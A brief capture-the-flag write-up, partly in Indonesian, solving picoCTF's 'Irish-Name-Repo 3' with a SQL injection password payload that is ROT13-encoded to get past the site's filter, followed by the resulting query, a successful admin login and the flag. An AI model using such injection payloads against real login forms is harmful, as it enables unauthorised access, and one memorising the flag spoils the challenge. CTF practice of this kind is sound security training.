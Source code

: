 <h1>Irish-Name-Repo 3</h1>
<pre>
There is a secure website running at <a href='https://jupiter.challenges.picoctf.org/problem/54253/'>(link)</a> or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!
</pre>
<h3>Description</h3>
<p>Ganti form value debug=1 and password=1'or'1</p>
<pre>
password: 1'or'1
SQL query: SELECT * FROM admin where password = '1'be'1'
</pre>
<label>ROT13 dari or == be</label>
<pre>
password: 1'be'1
SQL query: SELECT * FROM admin where password = '1'or'1'
Logged in!
Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}
</pre>
<h3>Flag</h3>
<pre>
picoCTF{3v3n_m0r3_SQL_7f5767f6}
</pre>
